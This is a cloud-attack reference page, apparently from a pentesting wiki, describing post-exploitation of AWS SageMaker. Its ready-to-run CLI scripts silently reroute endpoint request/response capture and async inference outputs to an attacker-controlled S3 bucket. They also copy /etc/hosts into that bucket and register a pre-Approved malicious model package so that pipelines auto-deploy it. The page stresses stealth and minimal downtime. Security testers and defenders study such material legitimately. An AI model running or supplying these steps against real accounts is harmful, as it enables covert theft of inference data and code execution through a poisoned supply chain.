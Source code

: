 # AWS - SageMaker Post-Exploitation

## SageMaker endpoint data siphon via UpdateEndpoint DataCaptureConfig

Abuse SageMaker endpoint management to enable full request/response capture to an attacker‑controlled S3 bucket without touching the model or container. Uses a zero/low‑downtime rolling update and only requires endpoint management permissions.

### Requirements
- IAM: `sagemaker:DescribeEndpoint`, `sagemaker:DescribeEndpointConfig`, `sagemaker:CreateEndpointConfig`, `sagemaker:UpdateEndpoint`
- S3: `s3:CreateBucket` (or use an existing bucket in the same account)
- Optional (if using SSE‑KMS): `kms:Encrypt` on the chosen CMK
- Target: An existing InService real‑time endpoint in the same account/region

### Steps
1) Identify an InService endpoint and gather current production variants

```bash
REGION=${REGION:-us-east-1}
EP=$(aws sagemaker list-endpoints --region $REGION --query "Endpoints[?EndpointStatus=='InService']|[0].EndpointName" --output text)
echo "Endpoint=$EP"
CFG=$(aws sagemaker describe-endpoint --region $REGION --endpoint-name "$EP" --query EndpointConfigName --output text)
echo "EndpointConfig=$CFG"
aws sagemaker describe-endpoint-config --region $REGION --endpoint-config-name "$CFG" --query ProductionVariants > /tmp/pv.json
```

2) Prepare attacker S3 destination for captures

```bash
ACC=$(aws sts get-caller-identity --query Account --output text)
BUCKET=ht-sm-capture-$ACC-$(date +%s)
aws s3 mb s3://$BUCKET --region $REGION
```

3) Create a new EndpointConfig that keeps the same variants but enables DataCapture to the attacker bucket

Note: Use explicit content types that satisfy CLI validation.

```bash
NEWCFG=${CFG}-dc
cat > /tmp/dc.json << JSON
{
  "EnableCapture": true,
  "InitialSamplingPercentage": 100,
  "DestinationS3Uri": "s3://$BUCKET/capture",
  "CaptureOptions": [
    {"CaptureMode": "Input"},
    {"CaptureMode": "Output"}
  ],
  "CaptureContentTypeHeader": {
    "JsonContentTypes": ["application/json"],
    "CsvContentTypes": ["text/csv"]
  }
}
JSON
aws sagemaker create-endpoint-config \
  --region $REGION \
  --endpoint-config-name "$NEWCFG" \
  --production-variants file:///tmp/pv.json \
  --data-capture-config file:///tmp/dc.json
```

4) Apply the new config with a rolling update (minimal/no downtime)

```bash
aws sagemaker update-endpoint --region $REGION --endpoint-name "$EP" --endpoint-config-name "$NEWCFG"
aws sagemaker wait endpoint-in-service --region $REGION --endpoint-name "$EP"
```

5) Generate at least one inference call (optional if live traffic exists)

```bash
echo '{"inputs":[1,2,3]}' > /tmp/payload.json
aws sagemaker-runtime invoke-endpoint --region $REGION --endpoint-name "$EP" \
  --content-type application/json --accept application/json \
  --body fileb:///tmp/payload.json /tmp/out.bin || true
```

6) Validate captures in attacker S3

```bash
aws s3 ls s3://$BUCKET/capture/ --recursive --human-readable --summarize
```

### Impact
- Full exfiltration of real‑time inference request and response payloads (and metadata) from the targeted endpoint to an attacker‑controlled S3 bucket.
- No changes to the model/container image and only endpoint‑level changes, enabling a stealthy data theft path with minimal operational disruption.

## SageMaker async inference output hijack via UpdateEndpoint AsyncInferenceConfig

Abuse endpoint management to redirect asynchronous inference outputs to an attacker-controlled S3 bucket by cloning the current EndpointConfig and setting AsyncInferenceConfig.OutputConfig S3OutputPath/S3FailurePath. This exfiltrates model predictions (and any transformed inputs included by the container) without modifying the model/container.

### Requirements
- IAM: `sagemaker:DescribeEndpoint`, `sagemaker:DescribeEndpointConfig`, `sagemaker:CreateEndpointConfig`, `sagemaker:UpdateEndpoint`
- S3: Ability to write to the attacker S3 bucket (via the model execution role or a permissive bucket policy)
- Target: An InService endpoint where asynchronous invocations are (or will be) used

### Steps
1) Gather current ProductionVariants from the target endpoint

```bash
REGION=${REGION:-us-east-1}
EP=<target-endpoint-name>
CUR_CFG=$(aws sagemaker describe-endpoint --region $REGION --endpoint-name "$EP" --query EndpointConfigName --output text)
aws sagemaker describe-endpoint-config --region $REGION --endpoint-config-name "$CUR_CFG" --query ProductionVariants > /tmp/pv.json
```

2) Create an attacker bucket (ensure the model execution role can PutObject to it)

```bash
ACC=$(aws sts get-caller-identity --query Account --output text)
BUCKET=ht-sm-async-exfil-$ACC-$(date +%s)
aws s3 mb s3://$BUCKET --region $REGION || true
```

3) Clone EndpointConfig and hijack AsyncInference outputs to the attacker bucket

```bash
NEWCFG=${CUR_CFG}-async-exfil
cat > /tmp/async_cfg.json << JSON
{"OutputConfig": {"S3OutputPath": "s3://$BUCKET/async-out/", "S3FailurePath": "s3://$BUCKET/async-fail/"}}
JSON
aws sagemaker create-endpoint-config --region $REGION   --endpoint-config-name "$NEWCFG"   --production-variants file:///tmp/pv.json   --async-inference-config file:///tmp/async_cfg.json
aws sagemaker update-endpoint --region $REGION --endpoint-name "$EP" --endpoint-config-name "$NEWCFG"
aws sagemaker wait endpoint-in-service --region $REGION --endpoint-name "$EP"
```

4) Trigger an async invocation and verify objects land in attacker S3

```bash
aws s3 cp /etc/hosts s3://$BUCKET/inp.bin
aws sagemaker-runtime invoke-endpoint-async --region $REGION --endpoint-name "$EP" --input-location s3://$BUCKET/inp.bin >/tmp/async.json || true
sleep 30
aws s3 ls s3://$BUCKET/async-out/ --recursive || true
aws s3 ls s3://$BUCKET/async-fail/ --recursive || true
```

### Impact
- Redirects asynchronous inference results (and error bodies) to attacker-controlled S3, enabling covert exfiltration of predictions and potentially sensitive pre/post-processed inputs produced by the container, without changing model code or image and with minimal/no downtime.

## SageMaker Model Registry supply-chain injection via CreateModelPackage(Approved)

If an attacker can CreateModelPackage on a target SageMaker Model Package Group, they can register a new model version that points to an attacker-controlled container image and immediately mark it Approved. Many CI/CD pipelines auto-deploy Approved model versions to endpoints or training jobs, resulting in attacker code execution under the service’s execution roles. Cross-account exposure can be amplified by a permissive ModelPackageGroup resource policy.

### Requirements
- IAM (minimum to poison an existing group): `sagemaker:CreateModelPackage` on the target ModelPackageGroup
- Optional (to create a group if one doesn’t exist): `sagemaker:CreateModelPackageGroup`
- S3: Read access to referenced ModelDataUrl (or host attacker-controlled artifacts)
- Target: A Model Package Group that downstream automation watches for Approved versions

### Steps
1) Set region and create/find a target Model Package Group
```bash
REGION=${REGION:-us-east-1}
MPG=victim-group-$(date +%s)
aws sagemaker create-model-package-group --region $REGION --model-package-group-name $MPG --model-package-group-description "test group"
```

2) Prepare dummy model data in S3
```bash
ACC=$(aws sts get-caller-identity --query Account --output text)
BUCKET=ht-sm-mpkg-$ACC-$(date +%s)
aws s3 mb s3://$BUCKET --region $REGION
head -c 1024 </dev/urandom > /tmp/model.tar.gz
aws s3 cp /tmp/model.tar.gz s3://$BUCKET/model/model.tar.gz --region $REGION
```

3) Register a malicious (here benign) Approved model package version referencing a public AWS DLC image
```bash
IMG="683313688378.dkr.ecr.$REGION.amazonaws.com/sagemaker-scikit-learn:1.2-1-cpu-py3"
cat > /tmp/inf.json << JSON
{
  "Containers": [
    {
      "Image": "$IMG",
      "ModelDataUrl": "s3://$BUCKET/model/model.tar.gz"
    }
  ],
  "SupportedContentTypes": ["text/csv"],
  "SupportedResponseMIMETypes": ["text/csv"]
}
JSON
aws sagemaker create-model-package --region $REGION   --model-package-group-name $MPG   --model-approval-status Approved   --inference-specification file:///tmp/inf.json
```

4) Verify the new Approved version exists
```bash
aws sagemaker list-model-packages --region $REGION --model-package-group-name $MPG --output table
```

### Impact
- Poison the Model Registry with an Approved version that references attacker-controlled code. Pipelines that auto-deploy Approved models may pull and run the attacker image, yielding code execution under endpoint/training roles.
- With a permissive ModelPackageGroup resource policy (PutModelPackageGroupPolicy), this abuse can be triggered cross-account.

## Feature store poisoning

Abuse `sagemaker:PutRecord` on a Feature Group with OnlineStore enabled to overwrite live feature values consumed by online inference. Combined with `sagemaker:GetRecord`, an attacker can read sensitive features. This does not require access to models or endpoints.

{{#ref}}
feature-store-poisoning.md
{{/ref}}